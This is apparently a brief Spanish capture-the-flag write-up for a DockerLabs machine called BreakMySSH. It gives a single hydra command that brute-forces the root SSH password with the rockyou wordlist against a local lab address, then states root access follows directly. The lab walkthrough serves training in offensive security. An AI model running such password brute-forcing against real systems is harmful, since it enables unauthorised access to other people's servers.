

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/dockerlabs/breakmyssh/index.html · generator: mkdocs

# BreakMySSH

Solo hay un OpenSSH abierto,
`hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`
Se obtiene la contraseña para root, se entra y no hace falta ESCALADA
